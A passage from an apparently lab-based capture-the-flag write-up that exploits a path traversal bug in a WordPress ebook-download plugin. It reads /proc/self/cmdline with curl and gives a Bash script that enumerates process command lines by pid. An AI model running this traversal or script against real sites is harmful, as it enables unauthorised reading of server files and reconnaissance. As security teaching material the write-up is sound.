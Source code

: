 

It seems to print the given parameter three times, then without a break
the results, which includes `\x00` where I would want spaces. Then it
ends in `<script>window.close()</script>`.

I can use `tr` to [replace the nulls with
whitespace](https://stackoverflow.com/a/42592972), and `cut` to remove
the beginning and end:



    oxdf@hacky$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
    /usr/sbin/apache2 -k start



The breaks down as:

-   `tr '\000' ' '` - replace nulls with spaces
-   `cut -c115-` start at character 115 and print the rest. I'll note
    that 115 is three times the length of the parameter plus 1.
-   `rev | cut -c32- | rev` - reverse the string, start 32 characters
    in, and then reverse again, effectively removing the last 31
    characters.

This traversal also works with absolute paths, so
`ebookdownloadurl=/proc/self/cmdline`.

#### Bash Script

I can make a quick Bash script from this to loop over a range of pids
and try to find processes:



    #!/bin/bash

    for i in $(seq 1 50000); do

        path="/proc/${i}/cmdline"
        skip_start=$(( 3 * ${#path} + 1))
        skip_end=32

        res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path}ne -o- | tr '\000' ' ')
        output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
        if [[ -n "$output" ]]; then
            echo "${i}: ${output}"
        fi

    done



This effectively does what I showed above, capturing the results with
nulls replaced in `res`, then cutting the start and end and saving as
`output`, and finally printing the pid and the command line if it's
there.

